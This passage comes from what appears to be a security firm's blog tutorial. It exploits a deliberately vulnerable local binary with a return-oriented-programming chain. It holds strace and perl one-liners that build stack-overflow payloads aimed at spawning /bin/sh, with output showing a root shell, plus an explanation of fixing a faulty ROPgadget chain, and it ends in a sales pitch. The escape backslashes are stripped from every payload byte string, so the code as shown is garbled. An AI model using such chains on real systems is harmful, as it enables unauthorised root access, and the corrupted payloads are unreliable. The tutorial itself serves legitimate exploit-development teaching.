 ```$ strace /home/arget/vuln "`cat sc.o``perl -e 'print "A"x(140-33) . "xd0xbbxfdxf7" . "xb5x6cxfdxf7" . "xb6x6cxfdxf7" . "x03x1exe0xf7" . "xaaxaaxffxff" . "x30x6cxfdxf7"'`"  

In the ROP generated addresses and .data .data + xx, since that is intended for the .data of libc.so.6, so the we changed by the .data binary: 0x0804a018 and successive.

We have another problem, and that is that ROPgadget has made a mistake when creating that ROP, since in the second `pop esi` it picks up .data + 8, and then runs the gadget `xor edx, edx ; pop...;ret`. The problem is that this last gadget contains an `pop esi`that picks up a 0x41414141 placed there for filling (the pop’s between the `xor edx,edx` and the ret have to pick up something harmless, if they won’t load the string of stringing, that’s why it’s necessary place padding), then, the esi refers to -supposedly- .data + 8 in the gadget `mov [esi], edx`, which (containing the esi actually a 0x41414141) supposes a segment violation. It can be arranged by placing in the second 0x41414141 after the gadget `xor edx,edx` the address of .data + 8.

At last we are ready to exploit true:  
``$ /home/arget/vuln "`perl -e 'print "A"x140 . "xeex86x04x08"x4 . ("xaax84x04x08"x2 . "xeex86x04x08")x3 . "xaax84x04x08"x8 . "x1fx32xdfxf7" . "x37x83x04x08" . "x30x6cxfdxf7" . "x2cxf5xddxf7" . "x18xa0x04x08" . "xaeZxdcxf7" . "/bin" . "x86xa6xe4xf7" . "AAAA" . "AAAA" . "x2cxf5xddxf7" . "x1cxa0x04x08" . "xaeZxdcxf7" . "//sh" . "x86xa6xe4xf7" . "AAAA" . "AAAA" . "x2cxf5xddxf7" . "x20xa0x04x08" . "Nx80xdfxf7" . "AAAA" . "x20xa0x04x08" . "AAAA" . "AAAA" . "x86xa6xe4xf7" . "AAAA" . "AAAA" . "xb5xdexddxf7" . "x18xa0x04x08" . "x03x1exe0xf7" . "x20xa0x04x08" . "xaeZxdcxf7" . "x20xa0x04x08" . "x1f2xdfxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "xecxf5xdcxf7" . "7mxdcxf7"'`"  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA������������������������������������������ 2��7�0l��,��� ��Z��/bin����AAAAAAAA,��� ��Z��//sh����AAAAAAAA,��� �N���AAAA �AAAAAAAA����AAAAAAAA���� � �� ��Z�� � 2����������������������������������������������7m��  
[root@plata arget]# whoami  
root  
[root@plata arget]#``


At Puffin Security, we use the ELITE SECURITY CONSULTING methodology so you can rest assured that your organization will have the highest level of security. 

Complete the form, and we'll be in touch as soon as possible

[![Lets Audit Button](/assets/uploads/2023/01/Puffin-security-blog-button-lest-audit-2.jpg 'lets Audit Button')](https://hub.puffinsecurity.com/quote)
